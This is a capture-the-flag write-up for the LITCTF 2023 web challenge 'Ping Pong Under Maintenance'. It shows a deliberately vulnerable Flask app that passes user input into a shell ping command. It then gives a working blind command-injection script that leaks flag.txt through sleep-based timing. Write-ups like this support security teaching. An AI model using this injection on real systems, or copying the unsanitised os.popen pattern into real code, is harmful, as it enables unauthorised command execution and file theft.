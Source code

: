 # Web - Ping Pong Under Maintenance (LITCTF 2023)

## Problem

Compared to "Ping Pong", we are given a modified `app.py` file as follows:

```python
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```

## Solution

As the result of the command injection vulnerability is no longer displayed, we need to use other mechanisms to find the flag. I chose to use a timing-based attack where we sleep for 2 additional seconds if a character of a flag matches our guess. We then use this method to enumerate all flag characters. Solve script is as follows:


```python
import requests, time, string

url = 'http://34.130.180.82:59685/'
# Add characters to flag 1 by 1 in case timeout
flag = 'LITCTF{c4refu1_fr}'
while flag[-1] != '}':
    j = len(flag)
    found = False
    for c in '}{_' + string.ascii_lowercase + string.digits + string.ascii_uppercase:
        cmd = f'a; if [ $(python3 -c "print(\'1\' if open(\'flag.txt\', \'r\').read()[{j}] == \'{c}\' else \'\')") ]; then sleep 2; fi'
        start = time.time()
        r = requests.post(url, data={'hostname': cmd})
        duration = time.time() - start
        print(duration, r.status_code, c)
        # Need to test locally, >2s for me = char match
        if duration > 2:
            found = True
            flag += c
            break
    if not found:
        flag += '?'
    print('Flag:', flag)

```

## Flag

LITCTF{c4refu1_fr}

